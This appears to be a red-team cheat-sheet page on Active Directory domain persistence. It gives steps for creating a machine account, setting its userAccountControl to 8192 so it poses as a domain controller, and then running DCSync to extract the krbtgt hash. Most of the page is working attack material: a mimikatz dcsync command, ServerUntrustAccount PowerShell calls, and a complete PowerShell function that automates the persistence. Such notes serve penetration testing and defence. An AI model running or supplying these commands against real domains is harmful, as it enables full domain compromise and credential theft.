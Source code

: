Most important bit of having a computer account to act as a domain controller is that the DCSync can be used on that arbitrary account instead of the legitimate domain controller.

**Steps:**
1. Creation a machine account
2. Modifying **userAccountControl** to 8192
3. Computer account is known its NTLM hash could be used to pass the hash (create new cmd.exe, mimikatz...)
4. Command prompt will open under the context of the machine account --> DCSync KRBTG or whole identities
```
lsadump::dcsync /domain:purple.lab /user:krbtgt
```
**Automate technique 1:**
- https://github.com/STEALTHbits/ServerUntrustAccount
```
Add-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -Verbose
Invoke-ServerUntrustAccount -ComputerName "newMachine01" -Password "Password123" -MimikatzPath ".\mimikatz.exe"
```

**Automate technique 2:**
PowerShell script to automate domain persistence via the userAccountControl active directory attribute.
```
function Execute-userAccountControl
{
[CmdletBinding()]
        param
        (
                [System.String]$DomainFQDN = $ENV:USERDNSDOMAIN,
                [System.String]$ComputerName = 'Pentestlab',
                [System.String]$OSVersion = '10.0 (18363)',
                [System.String]$OS = 'Windows 10 Enterprise',
                [System.String]$DNSName = "$ComputerName.$DomainFQDN",
$MachineAccount = 'Pentestlab'
        )
$secureString = convertto-securestring "Password123" -asplaintext -force
$VerbosePreference = "Continue"

Write-Verbose -Message "Creating Computer Account: $ComputerName"
New-ADComputer $ComputerName -AccountPassword $securestring -Enabled $true -OperatingSystem $OS -OperatingSystemVersion $OS_Version -DNSHostName
$DNSName -ErrorAction Stop;
Write-Verbose -Message "$ComputerName created!"
Write-Verbose -Message "Attempting to establish persistence."
Write-Verbose -Message "Changing the userAccountControl attribute of $MachineAccount computer to 8192."
Set-ADComputer $MachineAccount -replace @{ "userAccountcontrol" = 8192 };
Write-Verbose -Message "$MachineAccount is now a Domain Controller!"
Write-Verbose -Message "Domain persistence established!You can now use the DCSync technique with Pentestlab credentials."
$VerbosePreference = "Continue"
}
```
